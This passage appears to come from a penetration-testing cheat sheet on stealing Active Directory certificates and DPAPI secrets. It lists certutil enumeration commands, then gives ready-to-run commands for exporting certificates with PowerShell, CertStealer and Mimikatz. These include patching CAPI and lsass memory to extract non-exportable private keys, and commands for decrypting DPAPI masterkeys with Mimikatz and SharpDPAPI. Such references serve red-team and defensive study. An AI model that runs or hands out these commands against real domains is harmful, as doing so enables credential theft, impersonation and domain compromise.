 ```text
Cmd > certutil.exe -config - -ping
Cmd > certutil.exe -TCAInfo [-v]
```

## Hunt for Certificates <a id="hunt-for-certificates"></a>

##  <a id="hunt-for-certificates"></a>

### Export Certificates \(THEFT1\) <a id="export-certificates-theft-1"></a>

Export a certificate from user's context.

With certmgr:

* Run → `certmgr.msc` → Action → All Tasks → Export ...

With PowerShell:

```text
PS > Export-PfxCertificate -Password (Read-Host -AsSecureString -Prompt 'Password') -Cert (Get-Item -Path Cert:\LocalMachine\My\<CERT_THUMBPRINT>) -FilePath cert.pfx -Verbose
```

With [CertStealer](https://github.com/TheWover/CertStealer):

```text
Cmd > .\CertStealer.exe -export pfx <CERT_THUMBPRINT>
```

If the private key is non-exportable, use Mimikatz's `crypto::capi` \(to patch CAPI in current process\) or `crypto::cng` \(to patch `lsass.exe` memory\):

```text
Cmd > .\mimikatz.exe "crypto::capi" "crypto::certificates /export" "exit"
```

### DPAPI User Keys \(THEFT2\) <a id="dpapi-user-keys-theft-2"></a>

Decrypt a domain user's masterkey with domain's backup key with Mimikatz:

```text
Cmd > .\mimikatz.exe "dpapi::masterkey /in:C:\path\to\masterkey /rpc" "exit"
```

Decrypt masterkey if user's plaintext password is known with Mimikatz:

```text
Cmd > .\mimikatz.exe "dpapi::masterkey /in:C:\path\to\masterkey /sid:<ACCOUNT_SID> /password:Passw0rd!" "exit"
```

Simplify the process with SharpDPAPI providing it a file with one or more `{GUID}:SHA1` masterkey mappings \(will output a `.pem` file\):

```text
Cmd > .\SharpDPAPI.exe certificates /mkfile:C:\Temp\mkeys.txt
```
